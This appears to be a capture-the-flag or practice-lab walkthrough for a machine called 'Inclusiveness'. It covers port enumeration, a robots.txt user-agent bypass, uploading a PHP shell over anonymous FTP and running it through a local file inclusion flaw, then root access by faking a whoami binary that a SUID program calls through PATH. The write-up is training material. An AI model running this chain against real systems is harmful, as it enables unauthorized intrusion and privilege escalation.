



# Inclusiveness

**IP Address:** 192.168.76.14

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 21    | ftp      | vsftpd 3.0.3 |
| 22    | ssh      | OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0) |
| 80    | http     | Apache httpd 2.4.38 ((Debian)) |
## Exploitation
### Exploit Details (LFI)
* **Name** - LFI 
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The robots.txt file gives us a hint that we cannot enumerate it without a search engine user agent. We can get around this with curl. 

Commands
```bash
curl http://$ip/robots.txt
curl -A "GoogleBot" http://$ip/robots.txt
```


The directory shown in the robots.txt file has a LFI which we can leverage to get RCE by uploading a shell to the FTP server. 

Commands
```bash
ftp $ip
anonymous
cd pub
put shell.php
quit
curl http://192.168.76.14/secret_information/?lang=/var/ftp/pub/shell.php
python -c 'import pty;pty.spawn("/bin/bash")'
whoami
cat /home/tom/local.txt
```




## Privilege Escalation
### Exploit Details (SUID / Binary Impersonation)
* **Name** - SUID / Binary Impersonation
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

We can see from the source code of the rootshell.c in tom's home directory that it calls whoami from a relative path. The file runs with SUID permissions and because of the relative path we can impersonate the whoami file to respond as tom and effectively pass the check so it will launch a root shell. 

Commands
```bash
cat /home/tom/rootshell.c
cd /tmp
echo "echo tom" > whoami
chmod 777 whoami
export PATH=/tmp:$PATH
/home/tom/rootshell
whoami
cat /root/proof.txt
```

